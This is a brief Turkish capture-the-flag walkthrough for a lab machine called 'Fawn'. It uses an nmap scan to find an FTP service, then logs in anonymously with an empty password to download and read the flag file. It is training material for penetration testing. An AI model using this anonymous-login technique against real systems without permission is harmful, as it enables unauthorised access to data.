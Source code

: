---
---

# Fawn

!!! info "Target IP Address"

    10.129.25.41

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.25.41 -sV
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-10 22:58 +03
Nmap scan report for 10.129.25.41
Host is up (0.28s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.69 seconds
```

FTP bağlantısı gerçekleştir ve `anonymous` kullanıcısı olarak giriş yap. Parola sorulduğunda boş parola gir:

```bash
ftp 10.129.25.41
```

Aşağıdaki komut ile bayrağı yerel makineye indir:

```text
get flag.txt
```

Aşağıdaki komut ile bayrağı ele geçir:

```bash
cat flag.txt
```
